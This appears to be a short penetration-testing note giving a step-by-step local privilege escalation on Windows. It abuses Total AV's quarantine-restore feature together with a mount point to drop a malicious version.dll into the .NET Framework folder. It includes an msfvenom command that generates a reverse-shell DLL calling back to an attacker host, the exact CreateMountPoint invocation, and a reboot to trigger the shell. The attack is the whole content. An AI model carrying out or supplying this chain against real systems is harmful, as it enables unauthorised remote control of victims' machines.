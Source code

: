 
https://github.com/googleprojectzero/symboliclink-testing-tools/releases/tag/v1.0

Download Release.7z

```bash - kali
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=443 -f dll > version.dll
```

Transfer version.dll and CreateMountPoint.exe to victim.

Make a folder in Windows, called mount.  

```batch - windows
cd /
```

```batch - windows
mkdir mount
```

Copy the version.dll file into it.

In Total AV, go to Antivirus > Quick Scan > Custom Scan > Add Folder > mount > Start Custom Scan.

Once version.dll is found, click "resolve", leave action as "Quarantine".

Click the "Remove Threat" button.

Go to Quarantine and confirm version.dll is there.

In PowerShell, navigate to Downloads folder.

```powershell - windows
.\CreateMountPoint.exe "C:\mount" "C:\Windows\Microsoft.NET\Framework\v4.0.30319\"
```

In Total AV, click the check box for version.dll and hit the Restore button.

![[1._rlwrap]]

Restart the Windows target to trigger the reverse shell.

